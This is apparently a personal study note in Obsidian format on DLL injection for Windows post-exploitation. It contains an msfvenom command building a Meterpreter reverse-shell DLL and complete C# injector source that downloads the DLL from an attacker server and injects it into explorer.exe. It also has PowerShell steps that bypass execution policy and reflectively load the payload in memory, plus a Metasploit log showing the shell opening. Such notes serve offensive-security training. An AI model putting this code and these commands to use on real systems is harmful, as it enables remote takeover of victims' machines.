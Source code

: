 ```yaml
---
creation date: December 28th 2022
last modified date: December 28th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[DLL Injection]]  
___

## Description:  

For injecting an entire DLL into a remote process instead of just shellcode

Generate a DLL and save it to your web root:
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f dll -o /var/www/html/met.dll
```
Full code:
```
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
namespace Inject
{
 class Program
 {
 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int 
processId);
 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint 
dwSize, uint flAllocationType, uint flProtect);
 [DllImport("kernel32.dll")]
 static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, 
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
 [DllImport("kernel32.dll")]
 static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr 
lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint 
dwCreationFlags, IntPtr lpThreadId);
 [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, 
SetLastError = true)]
 static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
 [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
 public static extern IntPtr GetModuleHandle(string lpModuleName);
 static void Main(string[] args)
 {
 String dir = 
Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
 String dllName = dir + "\\met.dll";
 WebClient wc = new WebClient();
 wc.DownloadFile("http://192.168.119.120/met.dll", dllName);
 Process[] expProc = Process.GetProcessesByName("explorer");
 int pid = expProc[0].Id;
 IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
 IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
 IntPtr outSize;
 Boolean res = WriteProcessMemory(hProcess, addr, 
Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
 IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), 
"LoadLibraryA");
 IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, 
addr, 0, IntPtr.Zero);
 }
 }
}
```
When we compile and execute the completed code, it fetches the Meterpreter DLL from the web server and gives us a reverse shell. This does write the .ddl to disk.

### Reflective DLL Injection

Open powershell with `PowerShell -Exec Bypass` 

```
$bytes = (New-Object 
System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll')
$procid = (Get-Process -Name explorer).Id
```

```
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
```

```
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```
This loads the DLL in memory and provides us with a reverse Meterpreter shell:
```
msf5 exploit(multi/handler) > exploit
[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) 
Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)
meterpreter >
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 28th 2022 (11:55 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
